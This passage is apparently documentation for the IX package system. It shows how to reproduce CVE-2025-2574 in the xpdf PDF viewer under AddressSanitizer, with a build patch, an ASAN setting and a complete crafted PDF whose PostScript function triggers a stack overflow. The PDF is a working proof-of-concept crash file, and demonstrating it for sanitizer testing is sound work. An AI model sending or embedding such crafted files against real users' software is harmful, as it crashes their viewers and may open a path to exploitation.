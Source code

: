 ### CVE-2025-2574

`bin/xpdf` is a PDF renderer written in C++ that is notorious for [multiple unpatched vulnerabilities](https://github.com/NixOS/nixpkgs/blob/5f4f306bea96741f1588ea4f450b2a2e29f42b98/pkgs/applications/misc/xpdf/default.nix#L96-L105).

Let's trigger [one of them](https://www.xpdfreader.com/security-bug/CVE-2025-2574.html): a [stack overflow](https://github.com/karelbilek/xpdf-mirror/blob/2009ee360556e8260a2d8b21820bb8f36c9377e8/xpdf/Function.cc#L1229)
when executing a PostScript function.

To run `bin/xpdf` with AddressSanitizer, we currently have to apply workarounds for two known issues related to AddressSanitizer
integration in **IX**, both of which will eventually be fixed.

First, the following patch should be applied to the IX package base:
```
> git diff
diff --git a/pkgs/bin/xpdf/viewer/ix.sh b/pkgs/bin/xpdf/viewer/ix.sh
index 3cec77d0e..913284aab 100644
--- a/pkgs/bin/xpdf/viewer/ix.sh
+++ b/pkgs/bin/xpdf/viewer/ix.sh
@@ -3,7 +3,6 @@
 {% block bld_libs %}
 lib/qt/6/base
 lib/qt/6/deps
-lib/{{allocator}}/trim(delay=1,bytes=1000000)
 {{super()}}
 {% endblock %}
```

Second, we need to set the `ASAN_OPTIONS` environment variable to `detect_odr_violation=0`.

With that out of the way, let's craft a malicious PDF:
```
> cat xpdf_CVE-2025-2574.pdf
%PDF-1.4
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
2 0 obj
<< /Type /Pages /Kids [3 0 R] /Count 1 >>
endobj
3 0 obj
<< /Type /Page
   /MediaBox [0 0 3 3]
   /Resources <<
        /Shading << /Sh1 4 0 R >>
    >>
   /Contents 5 0 R >>
endobj
4 0 obj
<< /ShadingType 1 /Function 6 0 R >>
endobj
5 0 obj
<< /Length 7 >>
stream
/Sh1 sh
endstream
endobj
6 0 obj
<< /FunctionType 4 /Domain [0 1 0 1] /Range [0 1 0 1 0 1]
   /Length 33 >>
stream
{ 2147483647 1 roll }
endstream
```